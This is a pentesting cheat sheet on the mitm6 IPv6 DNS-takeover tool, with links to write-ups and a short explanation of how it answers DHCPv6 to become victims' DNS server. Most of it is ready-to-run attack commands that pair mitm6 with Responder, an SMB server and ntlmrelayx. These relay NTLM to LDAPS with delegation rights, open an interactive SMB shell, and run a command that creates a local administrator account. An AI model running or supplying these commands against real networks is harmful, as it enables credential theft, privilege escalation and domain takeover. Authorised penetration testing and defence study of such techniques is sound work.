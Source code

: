 # Mitm6 
## Resources
1. https://cheatsheet.haax.fr/windows-systems/exploitation/ipv6/
2. https://github.com/fox-it/mitm6
3. https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
4. https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/
5. https://systemadminspro.com/domain-attacks-getting-an-account/
6. https://hausec.com/2019/03/05/penetration-testing-active-directory-part-i/
7. https://blog.vonahi.io/taking-over-ipv6-networks/
8. https://intrinium.com/mitm6-pen-testing/

mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server. It does this by replying to DHCPv6 messages, providing victims with a link-local IPv6 address and setting the attackers host as default DNS server

When using mitm6, it issues a DHCPv6 lease to clients that last for a period of 300 seconds (or 5 minutes) Due to this, it's possible that several DNS queries will actually fail, resulting in clients not being able to access services that rely on DNS names. You can, however, change this in the source code.

## Gonna create a fake DNS server for targets
```
sudo mitm6 -d lab.local
```

# Using with SMB server 
## First shell
```
sudo mitm6 -i eth0
```
## Second shell
```
smbserver.py SHARE_NAME path/to/share
```
# Using with Responder 
## First shell
```
sudo mitm6 -i eth0
```
## Second shell
```
responder -I eth0 -wFv
```
# Using with ntlmrelayx 
## First attacking shell
```
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqnd
```
## Second attacking shell
```
ntlmrelayx.py -t ldaps://icorp-dc.internal.corp -wh attacker-wpad --delegate-access
```
  - wh == server hosting WPAD (attacking IP)
  - t == target for relay
  - i == open interactive shell

```
ntlmrelayx.py -wh 192.168.218.129 -t smb://192.168.218.128/ -i
```
## Or
```
ntlmrelayx.py -ip 0.0.0.0 -t rpc://example.local -c "net user xuser xpass /add && net localgroup Administrators xuser /add"
```
